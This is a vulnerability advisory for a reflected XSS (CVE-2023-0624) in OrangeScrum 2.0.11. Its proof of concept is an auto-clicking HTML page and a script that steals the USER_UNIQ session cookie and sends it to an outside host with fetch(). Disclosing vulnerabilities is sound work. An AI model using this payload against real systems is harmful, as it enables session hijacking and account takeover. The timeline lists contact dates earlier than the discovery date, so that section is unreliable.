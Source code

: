 ```yaml
---
slug: advisories/oberhofer/
title: OrangeScrum 2.0.11 - Reflected XSS via filename
authors: Carlos Bello
writer: cbello
codename: oberhofer
product: OrangeScrum 2.0.11
date: 2023-02-01 12:00 COT
cveid: CVE-2023-0624
severity: 7.3
description: OrangeScrum 2.0.11 - Reflected Cross-Site Scripting via filename
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                         |
| --------------------- | ------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via filename         |
| **Code name**         | [Oberhofer](https://en.wikipedia.org/wiki/Oberhofer)    |
| **Product**           | OrangeScrum                                             |
| **Affected versions** | 2.0.11                                                  |
| **State**             | Public                                                  |
| **Release Date**      | 2023-02-01                                              |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0624](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0624)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="https://retr02332bughunter.orangescrum.com/defect/defects/download?filename=%3Cscript+type=%27text/javascript%27+src=%27https://retr02332.com/exploit-utils.js%27%3E%3C/script%3E"> Exploit</a>
        <script>
            document.getElementById("exploit").click();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/216176343-4430e676-1622-4af1-a866-3f773e6f6682.png)

<video width="835" height="505" controls>
    <source src="https://rb.gy/ezuagh"
    type="video/mp4">
    <p>POC-XSS-OrangeScrum</p>
</video>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/216176496-96c7ad03-4a72-4eb3-adad-1f614f8ff508.png)

## Our security policy

We have reserved the ID CVE-2023-0624 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-02-01"
  contacted="2022-02-01"
  replied="2022-02-01"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
